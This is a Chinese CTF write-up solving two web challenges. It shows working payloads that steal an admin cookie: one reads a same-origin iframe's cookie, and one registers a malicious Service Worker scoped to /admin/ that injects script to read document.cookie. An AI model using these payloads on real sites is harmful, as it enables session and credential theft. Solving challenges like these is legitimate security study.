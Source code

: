 ### 巡猎

flag 以 Cookie 的形式写在 `/admin` 路径下，先写入 flag 再访问我们的页面

经过一番搜索，找到了 https://stackoverflow.com/a/11243664

通过 iframe 嵌入 `/admin/` 路径，然后通过 `document` 读取目标 iframe 的 Cookie

```html
<iframe src="/admin/" id="barframe"></iframe>
<script>
setTimeout(() => {
  document.title = document.getElementById('barframe').contentDocument.cookie
}, 100)
</script>
```

![image](https://vip2.loli.io/2023/10/21/S3yI5kXxfDoupR2.jpg)

`flag{TotAlLY-NO-SECuRItY-In-The-saMe-ORIgiN}`

### 记忆

和上一题有所不同，这题是先访问攻击者的页面，再访问管理员页面

快速思考有什么是能被缓存下来的

Service Worker！

```html
~sw

{"Service-Worker-Allowed":"/","Content-Type":"application/javascript"}

self.addEventListener("fetch", (event) => {
  event.respondWith(new Response("<script>setTimeout(()=>{document.title=document.cookie}, 1000)</script>", {
    headers: {'Content-Type': 'text/html'}
  }));
});
```

```html
~page

{"Content-Type":"text/html"}

<script>
const registerServiceWorker = async () => {
  const registration = await navigator.serviceWorker.register("/~sw/", {scope: "/admin/"})
};
registerServiceWorker();
</script>
```

![image](https://vip2.loli.io/2023/10/21/2GTPgZKN7Jwq8FC.jpg)

